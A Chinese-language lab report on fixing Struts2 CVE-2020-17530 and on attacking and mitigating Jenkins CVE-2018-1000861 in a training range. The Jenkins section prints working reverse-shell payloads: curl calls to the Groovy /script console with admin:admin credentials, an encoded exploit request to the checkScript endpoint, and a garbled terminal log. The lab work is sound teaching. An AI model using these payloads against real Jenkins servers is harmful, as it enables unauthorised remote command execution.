

# 一、DMZ入口靶标的漏洞修复及修复效果验证

## 实验准备：

1、准备两个kali虚拟机，一个作为靶机（kali-2024），另一个作为攻击者主机（kali-2025）

2、搭建vulfocus靶场

3、获取第一个靶标


## 实验步骤：

### 1、漏洞分析和确认
靶标的漏洞是 CVE-2020-17530，这个漏洞涉及 Struts 2 的 OGNL 表达式注入，允许攻击者通过构造恶意请求执行任意代码。


### 2、漏洞修复：

查询得知，修复漏洞可以尝试以下几种方法：
1.更新 Struts 2 版本
2.配置安全防护
3.应用临时补丁


#### 对第二种方法进行尝试：配置安全防护

1. 禁用 OGNL 表达式执行

OGNL（Object Graph Navigation Language）是 Struts 2 的核心功能之一，但也是许多漏洞的根源。禁用或限制 OGNL 表达式的执行可以有效防止此类攻击。

>1.1：进入 Docker 容器
终端运行`docker ps -a`查看struts2-cve容器id
运行`docker exec -it <CONTAINER ID> bash` 进入容器


>1.2 在 Struts 2 的配置文件 struts.xml 中禁用 OGNL 表达式执行。可以通过设置一些常量来限制 OGNL 的使用
使用`find / -name "struts.xml"` 查看 struts.xml 文件位置


会看到以下输出
`/usr/src/target/classes/struts.xml`  
`/usr/src/src/main/resources/struts.xml`

发现有存在两个 struts.xml 文件， 查询GPT得知：

/usr/src/target/classes/struts.xml：这个文件应该是构建应用时，Maven 或其他构建工具将资源文件编译或复制到目标目录后生成的文件。这通常是在构建阶段生成的文件，意味着它已经被编译或打包。

/usr/src/src/main/resources/struts.xml：这个文件是源代码中的文件，应该是应用在构建过程中读取的原始文件。一般来说，应该修改源代码中的 struts.xml，然后重新构建应用。

>1.3 查看 struts.xml 文件内容
这里我第一次打开 /usr/src/src/main/resources/struts.xml 显示为空文件，选择对 /usr/src/target/classes/struts.xml 进行修改（此处是错误操作，第一次我使用了vim 路径错误也会创建一个文件，导致我以为是空文件）
使用`cat /usr/src/target/classes/struts.xml` 查看该文件

要禁用 OGNL 表达式执行，只需要在 <struts> 标签内添加一个常量配置项 struts.ognl.allowStaticMethodAccess，其值设置为 false。
 `<constant name="struts.ognl.allowStaticMethodAccess" value="false"/>` 
插入后如图所示

保存后退出


>1.4 重新构建和部署应用
运行构建命令 `mvn clean install` 次命令需要在 /usr/src 中运行，次目录下有所需文件pom.xml

重构有如下类似输出即为成功

重构完成后重启容器


>1.5 返回攻击者主机（kali-2025）再次尝试标靶获取检测漏洞修复是否成功

发现依然能获取到flag，漏洞并没有被修复，以为是用的之前获取flag的终端再次攻击保留了一些之前的数据，尝试打开新终端进行攻击，发现也能获取flag

查找原因发现前面是对 /usr/src/target/classes/struts.xml 进行了修改，`mvn clean install` 重构后会用 /usr/src/src/main/resources/struts.xml 文件覆盖前者，导致规则根本没被写入。

>1.6 对/usr/src/src/main/resources/struts.xml进行同样的修改并重复上述操作
对 /usr/src/src/main/resources/struts.xml 做出修改

再次重构

这次修改后再次进行靶标获取发现依然能得到，继续分析：
docker restart 会重新启动一个已经运行的容器，但它不会重新构建容器镜像或加载新的配置。具体来说，docker restart 会：
停止当前运行的容器。
使用相同的镜像和配置重新启动容器，并不会重新加载任何新的配置或更新。
或许是因为 docker restart 时并没有将修改的规则成功导入，依然是使用旧的规则

>1.7 修改规则后尝试创建一个新容器来确保规则的写入
运行 `docker commit <CONTAINER ID> my_fixed_struts` ，保持原容器 ID 使用 docker commit 将容器的当前状态保存为一个新镜像。

运行复制后的容器 `docker run -d -p 9215:8080 my_fixed_struts`

进入该容器查看规则是否被正确写入

完成上述步骤后再次尝试攻击，发现依然可以获取靶标，或许攻击面未完全修复 OGNL 漏洞：即使在 struts.xml 中禁用了 struts.ognl.allowStaticMethodAccess，仍然可能有其他 OGNL 漏洞路径存在。攻击者可能通过其他方式触发漏洞。


### 更换修复方式，更新struts2版本

>2.1 已知CVE-2020-17530 这个漏洞已经在 Struts 更高一些的版本中被修复。所以，最直接的修复方式是更新 Struts 至更高版本。


>2.2 查看struts2当前版本 
进入容器后运行`ls`查看当前目录文件，应有'pom.xml'文件

`cat pom.xml`查看版本，能看见图片中蓝框所示部分，其中红色方框全出部分为当前版（这张图片也是后面截的，原版应为2.5.25）


>2.3 修改 struts2-core 的依赖项，将前一步中的2.5.25更改为2.5.28。

保存后使用 `mvn clean install` 更新依赖并重新构建项目，Maven 会自动下载并更新到最新的 Struts2 版本。升级成功后再app/target目录中会多出 's2-059.jar' 和 'maven-archiver' 类似文件


>2.4 编译项目： 
使用以下命令在项目根目录下编译该项目
`mvn clean install`


>2.5 回到攻击者主机再次尝试攻击

发现这次攻击被阻挡，证明升级后的struts2确实修复了CVE-2020-17530这个漏洞


### 3、修复检测与绕过测试

>3.1对更新后的Struts2容器进行nmap扫描
`nmap -p 55204 192.168.56.102`


Nmap 扫描结果显示 55204 端口是开放的，但其服务被标记为 unknown，说明 Nmap 无法自动识别它的服务类型。这可能意味着：
Struts2 服务运行在该端口，但路径不清楚。
端口可能是 Docker 容器映射的端口，需要检查 Struts2 具体运行在哪个路径。
该端口可能运行了一个代理或中间层（如 WAF），导致直接访问 Struts2 失败。

>3.2使用curl手动扫描
`curl -v http://192.168.56.102:55204/`


curl 访问 http://192.168.56.102:55204/ 返回 404 Not Found，说明该端口的 Web 服务器 Jetty 是正常运行的，但没有正确的路径映射到 .action 处理逻辑。

>3.3
目标是找到 正确的 .action 入口点，然后测试漏洞利用。
使用较为强力的gobuster进行扫描
`gobuster dir -u http://192.168.56.102:55204/ -w /usr/share/wordlists/dirb/common.txt`


gobuster 目录扫描 没有发现有效的路径，这说明：
目标服务器可能没有直接暴露 Web 目录（所有访问 /xxxx 的请求都返回 404）。
Struts2 入口点可能不是常见路径（如 /index.action、/login.action）。
服务器可能配置了 URL 重写或 WAF，阻止了扫描器的正常工作。


# 二、CVE-2018-1000861漏洞相关缓解与修复

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


漏洞危害
- 获取服务器权限
- 获取敏感数据文件
- 写入恶意文件getshell
- 植入木马病毒勒索软件等

适用场景
- Jenkins主版本 <= 2.153
- Jenkins LTS版本 <= 2.138.3


## 针对攻击的不同方法：

### 直接使用redis容器进行攻击操作


在之前的攻击中，我们已经得到了redis容器内的shell的root访问权限，能够把redis的shell界面反弹到我的攻击者主机上，现在在redis的shell使用nmap扫描这个子网网段内的内容，可以扫描出三个ip地址，192.168.110.1对应的是网关，192.168.110.2对应redis容器，剩下的192.168.110.3是开启了8080和50000端口，正好对应了jenkins的两个默认开启的端口，可以说明这就是我们的攻击对象


针对之前之前攻击同学的操作，我认为可以不开代理能够直接在redis的shell中进行攻击，因为jenkins是能够主动向我的攻击者主机发起连接的，只要利用redis的shell向jenkins发送恶意漏洞利用就行

把反弹shell进行base64编码

执行exp

攻击者监听端口收到反弹shell


### 使用密码本爆破admin若口令获得管理员账号登录权限

redis能够访问jenkins，利用python脚本使用密码本进行爆破，获取到管理员用户名和密码后在redis的shell中运行下面的代码

```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"
USERNAME="admin"
PASSWORD="admin"   

curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


以下是不使用账号密码信息的结果，无法获得反弹shell
```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"   

curl -X POST "$JENKINS_URL/script" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


## 漏洞利用发现与缓解

### 漏洞利用发现，针对两种不同攻击方式

#### 使用exp.py针对漏洞的攻击，


```
GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=public+class+x%7Bpublic+x%28%29%7Bnew+String%28%2262617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d%22.decodeHex%28%29%29.execute%28%29%7D%7D HTTP/1.1
Host: 192.168.110.2:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.27.1


HTTP/1.1 200 OK
Date: Sun, 08 Jun 2025 17:51:04 GMT
X-Content-Type-Options: nosniff
Content-Type: text/html;charset=utf-8
Content-Length: 6
Server: Jetty(9.4.z-SNAPSHOT)

<div/>
```

`GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=...
`

这个 URL 是 Jenkins Script Console 中插件的参数验证接口。

/descriptorByName/.../checkScript 是 Jenkins 用来检测 Groovy 脚本合法性的接口（一般用于 UI 检查，不应被滥用执行恶意代码）。

sandbox=True 表示在沙箱中执行（但此漏洞可以逃逸沙箱或绕过限制）。

value=public class x{ public x() { ... } } 传递的是一段 Java/Groovy 类定义

沙箱中执行的内容是`new String("62617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d".decodeHex()).execute()
`
Hex解码后再base64解码就是标准的反弹shell
`bash -i >& /dev/tcp/192.168.56.104/12333 0>&1
`


#### 获得用户名和密码的管理员脚本攻击


```
JENKINS_URL="http://192.168.110.2:8080"

JENKINS_URL="http://192.168.110.2:8080"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# .[K
ATTACK_IP="192.168.56.104"

ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
USERNAME="admin"

ATTACK_PORT="12333"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
PASSWORD="admin"

USERNAME="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 


PASSWORD="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
curl -X POST "$JENKINS_URL/script" \


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
  --user "$USERNAME:$PASSWORD" \

curl -X POST "$JENKINS_URL/script" \
> 
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \

  --user "$USERNAME:$PASSWORD" \
>   --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
> 
  --header "Content-Type: application/x-www-form-urlencoded"

  --header "Content-Type: application/x-www-form-urlencoded"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0


  
  <!DOCTYPE html><html><head resURL="/static/03cce89a" data-rooturl="" data-resurl="/static/03cce89a">
```

```
curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"

```

这段请求：
- 使用的是 Jenkins 的 脚本执行接口 /script
- 使用的是 基础认证（admin:admin）
- 执行的 Groovy 脚本中使用 .execute() 来运行 Bash 命令反弹 Shell
- 攻击目标为 '$ATTACK_IP:$ATTACK_PORT'，即攻击者主机监听的反弹 shell 端口。

攻击效果判断：
```
<!DOCTYPE html><html><head ...>
<title>Jenkins</title>
...
<a href="/user/admin" class="model-link inside inverse"><b>admin</b></a>

```
说明：
- 请求成功返回了 Jenkins 页面，并且显示已登录用户为 admin
- 这意味着 认证成功 + 命令执行接口可达


### 一些缓解措施
- 使用jenkins web服务端界面对用户权限进行一些设置



- 更新和禁用风险插件


- 禁用jenkins的脚本执行功能


- 傻瓜式的一刀切方法，直接禁止redis的ip访问jenkins

写入防火墙规则禁止redis的访问


检查规则是否生效


修改后使用curl查看redis能否对jenkins进行访问，发现没有输出,再查看防火墙信息发现存在被拦截的pk包，说明redis确实发送了请求，但jenkins不进行回应


### 漏洞修复

对jenkins升级，拉取修复了漏洞版本的镜像，这里拉取了2.138.2


运行之前该容器


使用curl访问接口，发现访问漏洞存在的接口会直接跳转到用户登录界面，


在旧版本中curl进行对比，旧版本能够通过接口运行一些命令


# 三、实验心得体会


本次实验围绕两个典型漏洞——Struts2 的 OGNL 表达式注入漏洞（CVE-2020-17530）与 Jenkins 的远程代码执行漏洞（CVE-2018-1000861）展开，涵盖了漏洞原理理解、攻击复现、修复与效果验证的完整流程。在实验过程中，我不仅一定程度掌握了漏洞利用链的构造方式，也深刻体会到漏洞修复与验证的复杂性和系统性。

1. 多层次漏洞修复思维的形成

在 Struts2 的修复尝试中，我一开始尝试通过禁用 OGNL 表达式的方法来缓解漏洞，但由于配置文件路径误判与容器构建逻辑的忽视，导致修改未生效。这一过程让我意识到：

漏洞修复不仅仅是“改配置”，更重要的是“改对地方”、“改后生效”。

容器环境中修改文件后，若未重新构建镜像或创建新容器，变更往往无法落地。

单一的防护手段（如禁用 OGNL 静态方法）往往难以覆盖全部攻击面，更稳定有效的方式是直接升级框架版本。

最终选择升级 Struts2 到官方修复版本后，漏洞才被真正修复。这种对比让我更加明白，在生产环境中，官方更新和版本管理才是最稳妥的安全防线。

2. 攻防视角的切换带来的安全意识提升

在 Jenkins 漏洞的演示中，我从攻击者视角出发，尝试通过 Redis 渗透内部网络，再利用 Groovy 脚本接口执行远程命令，实现反弹 Shell。这个过程让我更加理解：

攻击者并非一定需要直接访问目标系统，通过旁路（如 Redis 可访问 Jenkins）即可发起有效攻击；

权限绕过+逻辑漏洞结合能形成高危利用链（如 Jenkins 脚本验证绕过 + Groovy 执行）；

攻击链的每一环都可能成为防御点，不应仅依赖最终接口的权限控制。

尤其在测试中，我尝试了无认证攻击、爆破账号密码后攻击等方式，这让我明白了安全防御不应局限于接口校验，更要在认证机制、网络隔离、接口限制、敏感功能禁用等方面全方位布防。

3. 工具使用与漏洞复现能力的提升

实验过程中，我熟练掌握了多个安全工具和操作方法：

docker exec / commit / ps / run 等容器操作指令，熟悉了在容器中定位配置文件与重构镜像的流程；

curl, gobuster, nmap 等工具辅助漏洞发现与测试，提升了漏洞验证的准确性；

mvn clean install 的使用让我理解了 Java 项目的构建机制，也更明白了为何修改源文件才有效；

使用 Wireshark 抓包、base64 编解码等基础手段辅助漏洞 payload 分析和理解，使攻击行为更加透明可控。


4. 安全意识的进一步加深

本次实验让我进一步认识到：安全从不是“一劳永逸”或“一招制敌”的过程，而是持续修复、测试、验证、加固的循环。一个小的失误（如修改了错误的配置路径、未重启容器）都有可能导致防护措施失效。

同时，攻击方式多样、路径复杂、工具灵活，安全防御者必须用整体性视角思考，从“代码、配置、架构、权限、边界”多个维度来完善系统。

5. 实验操作的简化

在实验中，我提出了2+1的操作模式，即两个容器加一张网卡，无论是对攻击方还是防守方，所有的操作都是得到上一层的访问控制权后将其作为跳板机来获取更内层的机器（容器）的访问控制权，所以实验操作中针对不同内网的渗透攻击和防护都可以只对本身和上一层网络中的机器进行操作，如果每个人都是在完整的靶场环境中实验的话对于深层的负责人会相对需要更多操作，而那些操作并不影响他们对应的实验内容，所以干脆只搭建2+1的部分靶场环境提高整体效率。对内层网络进行攻防的组员也都采用了这种方法，大大提高了我们实验效率，同时也不会影响实验结果。


